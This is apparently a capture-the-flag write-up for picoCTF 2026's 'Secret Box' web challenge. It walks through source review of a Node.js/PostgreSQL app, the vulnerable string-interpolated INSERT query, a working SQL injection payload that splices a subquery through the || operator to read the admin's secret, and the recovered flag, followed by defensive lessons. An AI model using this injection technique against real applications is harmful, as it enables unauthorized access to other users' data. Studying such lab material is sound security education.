

# Secret Box

**Category:** Web Exploitation  
**Difficulty:** Medium  
**Platform:** picoCTF 2026  
**Tools:** Browser DevTools, Bash, Source code review (Node.js / Express / Knex / PostgreSQL)  

## Challenge Description

> This secret box is designed to conceal your secrets.
> It's perfectly secure—only you can see what's inside.
> Or can you? Try uncovering the admin's secret.

The application lets users sign up, log in, and store private "secrets" tied to their account. The goal is to read the admin's secret without having admin credentials.

## Recon

Downloaded and extracted the provided source archive:

```bash
tar -xzvf source.tar.gz
cd source
find . -type f -not -path "*/node_modules/*"
```

This revealed a small Node.js/Express application backed by PostgreSQL (via `knex`):

```
./docker-compose.yml
./app/src/views/my_secrets.ejs
./app/src/views/index.ejs
./app/src/views/create_secret.ejs
./app/src/views/signup.ejs
./app/src/views/login.ejs
./app/src/db.js
./app/src/server.js
./app/src/handler.js
./app/Dockerfile
./db/initdb.sql
./db/Dockerfile
```

Reviewed `server.js` and `handler.js` to understand the routes and authentication flow:

- `authMiddleware` (`handler.js`) reads the `auth_token` cookie, looks it up in a `tokens` table, and attaches `req.userId` if the token is valid.
- `GET /` renders the logged-in user's own secrets: `SELECT * FROM secrets WHERE owner_id = ?` — **parameterized**, safe.
- `POST /login`, `POST /signup`, and the token lookup in `authMiddleware` all use parameterized (`?`) queries — safe.
- `POST /secrets/create` builds the insert query using raw template-string interpolation instead of a parameterized query:

```js
const content = req.body.content;
const query = await db.raw(
        `INSERT INTO secrets(owner_id, content) VALUES ('${userId}', '${content}')`
);
```

`userId` is trusted (derived server-side from the token lookup), but `content` comes directly from user input (`req.body.content`) and is concatenated into the SQL string with no escaping or sanitization.

Checked `db/initdb.sql` and `app/src/db.js` to understand the schema and how the flag is seeded:

```sql
CREATE TABLE secrets (
    id text PRIMARY KEY DEFAULT gen_random_uuid(),
    owner_id text NOT NULL REFERENCES users(id),
    content text NOT NULL,
    created_at timestamptz NOT NULL DEFAULT now()
);

INSERT INTO users(id, username, password) VALUES ('e2a66f7d-2ce6-4861-b4aa-be8e069601cb', 'admin', 'fake_password');
INSERT INTO secrets(owner_id, content) VALUES ('e2a66f7d-2ce6-4861-b4aa-be8e069601cb', 'picoCTF{fake_flag}');
```

Critically, the admin user's `id` is **hardcoded and static**: `e2a66f7d-2ce6-4861-b4aa-be8e069601cb`. `db.js` confirms this same static UUID is used at startup to inject the real flag into the admin's secret row via environment variables (`USERPASSWORD`, `FLAG`). Because this ID is visible directly in the source, no separate step is needed to discover it.

## Vulnerability

**SQL Injection** in `POST /secrets/create`.

Every other query in the codebase uses knex's parameterized `?` placeholders, which safely escape user input. The one exception is the secret-creation insert, which builds its query via raw string interpolation:

```js
`INSERT INTO secrets(owner_id, content) VALUES ('${userId}', '${content}')`
```

Since `content` is fully attacker-controlled and unescaped, any value submitted in the "content" field is inserted directly into the SQL statement — allowing arbitrary SQL to be injected into the `VALUES` clause of an `INSERT` statement.

Because we are inside a `VALUES(...)` clause (not a `SELECT`), a `UNION SELECT`-style injection doesn't apply syntactically. Instead, PostgreSQL's `||` string concatenation operator can be used to splice a subquery's result directly into the value being inserted.

## Exploit

1. Registered a new account and logged in normally via `/signup` and `/login`.
2. Navigated to **Create New Secret** (`/secrets/create`).
3. In the `content` field, submitted the following payload:

```
' || (SELECT content FROM secrets WHERE owner_id='e2a66f7d-2ce6-4861-b4aa-be8e069601cb') || '
```

**How the payload works:**

The vulnerable query template is:

```js
VALUES ('${userId}', '${content}')
```

Substituting the payload for `${content}` produces, character for character:

```
VALUES ('<my_id>', '' || (SELECT content FROM secrets WHERE owner_id='e2a66f7d-2ce6-4861-b4aa-be8e069601cb') || '')
```

Breaking down the navigation of quotes:

- The opening `'` before `${content}` is the code's own quote.
- The payload's first `'` closes it immediately, producing an empty string literal `''`.
- `|| (SELECT ...) ||` concatenates that empty string with the result of a subquery pulling the admin's `content` column (identified by the hardcoded admin UUID found during recon), then concatenates with another empty string.
- The payload's second `'` opens a new string literal, which is immediately closed by the code's own trailing `'`, again producing `''`.

Concatenating a value with empty strings on both sides leaves the value unchanged, so PostgreSQL effectively evaluates:

```sql
INSERT INTO secrets(owner_id, content)
VALUES ('<my_id>', (SELECT content FROM secrets WHERE owner_id='e2a66f7d-2ce6-4861-b4aa-be8e069601cb'))
```

The subquery is executed server-side *before* the insert completes, so the admin's flag is read out of their row and written into a brand-new row owned by my own account.

4. Submitted the form and returned to `/`, which lists all secrets belonging to the logged-in user (a legitimate, safe query). The newly created secret now displayed the admin's flag:

```
picoCTF{sq1_1nject10n_831311dc}
```



## Lessons Learned

- **Consistency matters more than coverage.** This app used safe, parameterized queries in nearly every route — login, signup, token validation, and secret listing were all correctly protected. A single raw string-interpolated query in `secrets/create` was enough to fully compromise the app's core security promise. One unsafe query is as dangerous as none being safe.
- **INSERT-clause injection isn't just UNION-based.** Since the injection point sits inside a `VALUES(...)` clause rather than a `SELECT`, classic `UNION SELECT` payloads don't apply. PostgreSQL's `||` concatenation operator lets a subquery's result be spliced directly into an otherwise-string value being inserted — a useful technique whenever the injection context is an `INSERT ... VALUES` rather than a `SELECT`.
- **Hardcoded/static IDs remove a whole discovery step for an attacker.** Because the admin's UUID was fixed in `initdb.sql` and reused verbatim in `db.js`, source code review alone revealed it — no additional enumeration or blind injection was needed to target the admin's row specifically.
- **Reading the full data flow (schema + seed script + routes) before touching the live app** made this a fast, single-payload solve rather than a guessing exercise. Knowing exactly which column, table, and row to target let the payload be constructed correctly on the first attempt.
